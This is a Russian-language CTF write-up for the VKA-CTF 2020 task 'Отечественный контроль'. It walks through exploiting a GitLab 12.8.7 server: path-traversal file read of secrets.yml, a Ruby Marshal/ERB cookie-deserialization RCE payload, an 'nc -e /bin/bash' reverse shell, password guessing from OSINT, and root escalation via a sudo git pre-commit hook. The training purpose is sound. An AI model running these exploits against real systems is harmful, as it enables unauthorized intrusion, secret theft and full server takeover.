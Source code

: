 ## Отечественный контроль

| Событие | Название | Категория | Сложность |
|:--------|:---------|:----------|----------:|
| VKA-CTF`2020 | Отечественный контроль | HTB | ВЫПУСК/1-3 курс |

### Описание
> Автор: [ 𝕂𝕣𝕒𝕦𝕤𝕖 ]
>
> Один очень уважаемый полковник недавно очень неудачно съездил на отдых в Крым. Как итог - все его репозитории на сайте github были заблокированы. Не очень долго думая, он решил поднять собственную систему контроля версий. Ну как поднять, просто поставил задачу своему подчиненному. Осталось только [проверить](https://gitlab.vkactf.tk/) как хорошо он с ней справился.

### Решение
#### USER
---
#### Arbitrary File Read
При входе на сайт видим gitlab сервер. Мы можем узанть его версию на `/help`
```
GitLab Community Edition 12.8.7
```
На HackerOne есть [отчёт](https://hackerone.com/reports/827052), в котором сказано, что данная версия уязвима к произвольному чтению файлов сервера.

Согласно отчёту необходимо выполнить следующие действия:

- Создать два проекта
- Добавить в первый проект issue со следующим примечанием:
```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)
```
- Переместить созданный issue во второй проект
- Перейти во второй проект и прочитать файл

#### RCE
Таким образом мы имеем произвольное чтение файлов. Используем это, чтобы получить `RCE`

1) Нам необходимо узнать секретный ключ сервера. Читаем файл `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml` и сохраняем себе ключ:
`secret_key_base: b15392...`

2) Далее удостоверяемся, что на сервере установлен сериализатор `:hybrid`
Читаем файл `/opt/gitlab/embedded/service/gitlab-rails/config/initializers/cookies_serializer.rb`
и проверяем строчку `Rails.application.config.action_dispatch.cookies_serializer = :hybrid`

3) Следующим шагом необходимо поднять `gitlab` этой же версии у себя и поменять у него секретный ключ, который мы получили в шаге `1`

4) Внутри вашего GitLab контейнера (если вы использовали `docker`, чтобы поднять `gitlab`) запускаем `rails console` и выполняем следующие команды:
```ruby
> gitlab-rails console
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar
erb = ERB.new("<%= `your_command_here` %>")
depr = depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```
Чтобы получить `Reverse Shell` можно воспользоватся командой `nc -e /bin/bash URL PORT`

5) После выполнения последней команды вы получите `cookie`. Используем их, чтобы отправить запрос на `gitlab` и выполнить команду:
```bash
curl 'https://gitlab.vkactf.tk/' -b "remember_user_token=КУКА_ЗДЕСЬ"
```
Используя обратную оболочку, мы будем выполнять команды от имени поьзователя `git`
#### OSINT
Создав свой аккаунт на `gitlab`, можно найти публичный репозиторий `secret-project`. В одном из его issues указана ссылка на репозиторий [github](https://github.com/C0mr4d3NeR4d), которая нам недоступна. Пробуем найти имя `C0mr4d3NeR4d` в соцсетях. Находим в [Twitter](https://twitter.com/C0mr4d3NeR4d)

На этой странице последний пост указывает на репозиторий на [gitlab](https://gitlab.com/D3finit3lyNotComr4d3/test_service). Изучив немного код, можно заметить, что все пароли созданы по шаблону `servicename_aka47`

Пробуем использовать этот шаблон для доступа к пользователям `comrade` и `cadet` на `gitlab` сервере. Пароль `cadet_aka47` не подошёл, зато подошёл `comrade_aka47`. Заходим с этим паролем за пользователя `comrade` и получаем первый флаг

**Флаг:**

> vka{c00l_4rb17r4ry_f1l3_r34d}

#### ROOT
---
#### Privilege Escalation
Пользователи `comrade` и `cadet` имеют общую группу. Заходим в домашнюю папку пользователя `cadet` и находим тот самый открытый репозиторий `secret-project`

Нам досутпно выполнение команд `git` от имени суперпользователя без пароля
```bash
> sudo -l
(ALL) NOPASSWD: /usr/bin/git
```
Мы не можем взаимодействовать с удалённым репозиторием, так как не знаем пароль пользователя. 

`GIT` имеет [хуки](https://git-scm.com/book/ru/v2/%D0%9D%D0%B0%D1%81%D1%82%D1%80%D0%BE%D0%B9%D0%BA%D0%B0-Git-%D0%A5%D1%83%D0%BA%D0%B8-%D0%B2-Git), которые выполняются после/до определённых команд. Таким образом, мы может создать `хук`, который выполнится, например, до команды `git commit`

В директории `.git/hooks/` создаём файл `pre-commit` с правами `755` и записываем в него код, который исполнится от имени суперпользователя, например
```bash
#!/bin/bash
cat /root/root.txt
```
Создаём какие-либо изменения, добавляем их в отслеживание, выполняем коммит и получаем флаг

**Флаг:**

> vka{c00l_pr1v1l463_35c4l4710n}